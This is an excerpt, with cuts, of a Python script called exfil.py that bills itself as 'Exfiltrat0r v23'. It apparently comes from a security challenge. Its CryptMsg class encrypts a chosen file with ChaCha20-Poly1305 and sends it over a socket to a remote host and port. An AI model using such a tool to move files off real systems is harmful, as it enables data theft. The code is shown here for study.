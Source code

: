 ### Code of *exfil.py* (with large cuts)
```python
[lots of ASCII art ansi sequences and stuff cut out for readability]

class CryptMsg:
    def __init__(self, key, filename, host, port):
        self.filename = os.path.abspath(filename)
        self.version = 1
        self.filename = filename
        self.key = key
        self.key_salt = get_random_bytes(16)
        self.derived_key = scrypt(self.key, self.key_salt, 32, 2**14, 8, 1)
        self.cipher = ChaCha20_Poly1305.new(key=self.derived_key)
        self.host = host
        self.port = port
        self.sock = None
        self.finished = False

    def _send_preamble(self):
        self.sock.sendall(b"".join([
            u8(self.version),
            u8(len(self.cipher.nonce)),
            self.cipher.nonce,
            u8(len(self.key_salt)),
            self.key_salt,
            self.cipher.encrypt(u32(len(self.filename))),
            self.cipher.encrypt(self.filename.encode()),
        ]))

    def _send_file(self):
        with open(self.filename, "rb") as infile:
            while chunk := infile.read(4096):
                self.sock.sendall(self.cipher.encrypt(chunk))

    def _send_digest(self):
        self.sock.sendall(self.cipher.digest())

    def tx(self):
        self.sock = socket.create_connection((self.host, self.port))
        self._send_preamble()
        self._send_file()
        self._send_digest()
        self.sock.close()
        self.finished = True

    def __repr__(self):
        return ("CryptMsg<key: {s.key!r}, filename: {s.filename!r}, "
               "host: {s.host!r}, port: {s.port!r}, finished: "
               "{s.finished!r}>").format(s=self)

class AsciiChar:
  # stuff

class AsciiSequence:
  # more stuff

def banner():
    print_chunks(colorize("Exfiltrat0r v23"))
    print_chunks(colorize("-----------------"))

def interactive_key():
    print_linewise(colorize("Enter key:"))

```